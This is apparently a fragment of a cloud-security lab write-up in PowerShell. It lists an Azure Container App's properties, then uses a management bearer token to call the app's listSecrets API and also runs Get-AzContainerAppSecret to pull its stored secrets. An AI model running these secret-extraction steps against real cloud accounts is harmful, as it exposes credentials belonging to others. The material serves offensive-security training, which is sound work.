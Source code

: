 ```
IdentityUserAssignedIdentity         : {
                                       }
LatestReadyRevisionName              : project-oakley--uamwltf
LatestRevisionFqdn                   : 
LatestRevisionName                   : project-oakley--uamwltf
Location                             : East US
ManagedBy                            : 
ManagedEnvironmentId                 : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/managedEnvironments/managedEnvironment-mbtrg14-883e
Name                                 : project-oakley
OutboundIPAddress                    : {20.127.248.50, 20.241.171.30, 20.169.229.88, 20.169.229.46…}
ProvisioningState                    : Succeeded
ResourceGroupName                    : mbt-rg-14
ScaleMaxReplica                      : 10
ScaleMinReplica                      : 0
ScaleRule                            : 
SystemDataCreatedAt                  : 5/17/2024 8:03:16 PM
SystemDataCreatedBy                  : ian_cloudpwned.com#EXT#@iancloudpwned.onmicrosoft.com
SystemDataCreatedByType              : User
SystemDataLastModifiedAt             : 5/20/2024 2:07:05 PM
SystemDataLastModifiedBy             : ian_cloudpwned.com#EXT#@iancloudpwned.onmicrosoft.com
SystemDataLastModifiedByType         : User
Tag                                  : {
                                       }
TemplateContainer                    : {{
                                         "resources": {
                                           "cpu": 0.25,
                                           "memory": "0.5Gi",
                                           "ephemeralStorage": "1Gi"
                                         },
                                         "image": "mcr.microsoft.com/k8se/quickstart:latest",
                                         "name": "project-oakley",
                                         "probes": [ ]
                                       }}
TemplateInitContainer                : 
TemplateRevisionSuffix               : 
TemplateServiceBind                  : 
TemplateTerminationGracePeriodSecond : 
TemplateVolume                       : {}
Type                                 : Microsoft.App/containerApps
WorkloadProfileName                  : Consumption

```

Let's try getting that secret
```
$token = $AzureManagementToken.access_token
$uri = "https://management.azure.com/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/containerApps/project-oakley/listSecrets?api-version=2024-03-01"

$headers = @{
    'Authorization' = "Bearer $token"
    'Content-Type' = 'application/json'
}

Invoke-RestMethod -Uri $uri -Method POST -Headers $headers
```
Or
```
└─PS> Get-AzContainerAppSecret -ResourceGroupName "mbt-rg-14" -ContainerAppName "project-oakley" -SubscriptionId "ceff06cb-e29d-4486-a3ae-eaaec5689f94"                                                                                     
```